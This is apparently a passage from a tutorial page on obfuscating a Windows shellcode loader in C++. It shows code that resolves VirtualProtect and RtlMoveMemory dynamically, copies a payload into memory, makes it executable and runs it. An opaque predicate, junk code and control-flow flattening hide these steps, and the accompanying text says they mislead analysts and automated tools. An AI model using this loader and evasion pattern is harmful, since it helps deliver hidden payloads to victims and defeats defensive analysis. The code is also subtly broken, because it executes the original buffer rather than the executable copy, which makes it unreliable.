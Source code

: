 ```cpp
                lpfnVirtualProtect MyVirtualProtect = (lpfnVirtualProtect)GetProcAddress(hKernel32, "VirtualProtect");
                lpfnRtlMoveMemory MyRtlMoveMemory = (lpfnRtlMoveMemory)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlMoveMemory");

                void* execMem = MyVirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
                if (execMem == NULL) {
                    std::cerr << "Memory allocation failed (code: " << GetLastError() << ")" << std::endl;
                    return;
                }

                MyRtlMoveMemory(execMem, buffer, size);

                DWORD oldProtect;
                MyVirtualProtect(execMem, size, PAGE_EXECUTE_READ, &oldProtect);

                // Transition to execute the shellcode
                state = 2;
                break;
            }

            case 2:
                if (junkVar > 10) {  // Opaque predicate
                    junkVar = 0;  // Junk operation
                    auto shellcodeFunc = (void(*)())buffer;
                    shellcodeFunc();  // Execute shellcode
                }
                return;

            default:
                return;
        }
    }
}
```

### **How These Techniques Help**

1. **Opaque Predicates**: The function contains conditions that always evaluate the same but are not easily identifiable. This can mislead analysts into thinking the condition might change.

2. **Insertion of Junk Code**: Junk operations do not contribute to the actual functionality but increase the code complexity, making it more difficult for automated tools to understand what the code does.

3. **Flattening Control Flow**: Replacing structured control flow with a state machine (e.g., using `switch` statements) makes it harder to identify the actual logical flow of the program.

### **Considerations**

- **Complexity vs. Performance**: Adding too much junk code or overly complex control flow can impact the performance of the program. There is a trade-off between the level of obfuscation and the performance impact.
  